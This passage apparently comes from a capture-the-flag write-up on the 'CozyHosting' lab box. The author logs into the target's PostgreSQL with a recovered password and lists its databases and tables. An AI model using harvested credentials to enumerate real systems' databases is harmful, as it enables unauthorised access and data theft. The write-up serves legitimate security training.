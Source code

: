 Unfortunately kanderson is not a valid user in our shell, but we'll definitely keep this in mind. That said, this was from a file called FakeUser.class, so we'll see..

Going back to the postgres credentials, I decided to begin enumerating the DB on the target with them. I can login to postgres with `postgres:Vg&nvzAQ7XxR`

```
app@cozyhosting:/app$ psql -h localhost -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```
I can list all databases with `\l`:

```
postgres-# \l
WARNING: terminal is not fully functional
Press RETURN to continue 
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil
eges   
-------------+----------+----------+-------------+-------------+----------------
-------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
(4 rows)
```

I'll then change databases to cozyhosting:

```
postgres-# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
```

List tables:

```
cozyhosting-# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
```
